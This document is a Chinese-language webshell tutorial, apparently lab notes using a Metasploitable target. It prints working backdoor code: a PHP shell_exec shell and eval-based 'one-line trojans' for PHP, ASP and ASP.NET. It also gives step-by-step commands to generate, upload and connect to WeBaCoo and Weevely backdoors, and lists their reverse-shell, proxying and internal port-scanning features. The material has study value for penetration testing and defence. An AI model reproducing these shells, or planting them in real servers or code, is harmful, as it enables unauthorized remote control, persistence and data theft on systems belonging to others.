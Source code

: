 

# WebShell

* Webshell 演示
* 中国菜刀的使用
* http1010101321php
* 输入密码pass
* WeBaCoo Web Backdoor Cookie
* Weevely

## Webshell 演示
* 在被攻击者新建 webshell 文件
``` 
root@metasploitable:/var/www# cat test.php 
<?php echo shell_exec($_GET['cmd']);?>

```
* 攻击者调用 webshell
``` 
http://10.10.10.132/test.php?cmd=id

```

## 中国菜刀的使用

* 一句话木马
``` 
PHP:    <?php @eval($_POST['pass']);?>
ASP:    <%eval request("pass")%>
ASP.NET:    <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>

```

* 复制 PHP 的一句话木马到服务器
``` 
root@metasploitable:/var/www# cat 1.php 
<?php @eval($_POST['pass']);?>

```

* 菜刀连接
1. 添加URL
2. 添加 shell
3. 双击打开 URL
4. 虚拟终端（ www-data权限 ）

## WeBaCoo (Web Backdoor Cookie)
* 简介
1. 类终端的shell，只针对 PHP
1. 编码通信内容通过 cookie 头传输，隐蔽性较强
1. Cookie: cm=aWQ=; cn=M-cookie; cp=pMi~
1. cm：bash64 编码之后的命令
1. cn：服务器用于返回数据的 cookie 头的名
1. cp：返回信息定界符

* 参数
``` 
Options:
  -g        Generate backdoor code (-o is required)

  -f FUNCTION   PHP System function to use
    FUNCTION
        1: system   (default)
        2: shell_exec
        3: exec
        4: passthru
        5: popen

  -o OUTPUT Generated backdoor output filename

  -r        Return un-obfuscated backdoor code

  -t        Establish remote "terminal" connection (-u is required)

  -u URL    Backdoor URL

  -e CMD    Single command execution mode (-t and -u are required)

  -m METHOD HTTP method to be used (default is GET)

  -c C_NAME Cookie name (default: "M-cookie")

  -d DELIM  Delimiter (default: New random for each request)

  -a AGENT  HTTP header user-agent (default exist)

  -p PROXY  Use proxy (tor, ip:port or user:pass:ip:port)

  -v LEVEL  Verbose level
    LEVEL
        0: no additional info (default)
        1: print HTTP headers
        2: print HTTP headers + data

  -l LOG    Log activity to file

  -h        Display help and exit

  update    Check for updates and apply if any

```

* 生成服务器端

1. webacoo -g -o webacoo.php
``` 
 -g        Generate backdoor code (-o is required)
 -o        OUTPUT Generated backdoor output filename

```
> root@kali:~# scp webacoo.php msfadmin@10.10.10.132:/tmp
2. 客户端端连接

``` 
-t        Establish remote "terminal" connection (-u is required)
-u        URL    Backdoor URL

webacoo -t -u http://10.10.10.132/webacoo.php
```

## Weevely

* 简介
1. 隐蔽的终端 PHP Webshell，只针对 PHP
2. 30 多个管理模块
    1. 执行系统命令
    1. 检查服务器常见配置错误
    1. 创建正向、反向 TCP Shell 连接
    1. 通过目标计算机代理iHTTP 流量
    1. 从目标计算机运行端口扫描，渗透内网
3. 支持连接密码

* Kali 缺少库
> https://pypi.python.org/pypi/PySocks/  
  ./setup.py install

* 生成服务器端
1. weevely generate password path
2. 默认路径在 /usr/share/weevely/
``` 
root@kali:~# weevely generate 123456 weevely.php
root@kali:/usr/share/weevely# cat weevely.php 

```
3. 上传到 靶机
> root@kali:/usr/share/weevely# scp weevely.php root@10.10.10.132:/var/www

* 客户端连接服务器
1. weevely URL password cmd
> root@kali:~# weevely http://10.10.10.132/weevely.php 123456

2. 连上靶机之后，可以使用 help 命令查看所有模块
> www-data@10.10.10.132:/var/www $ help  
  www-data@10.10.10.132:/var/www $ audit_suidsgid /  
  www-data@10.10.10.132:/var/www $ audit_filesystem  

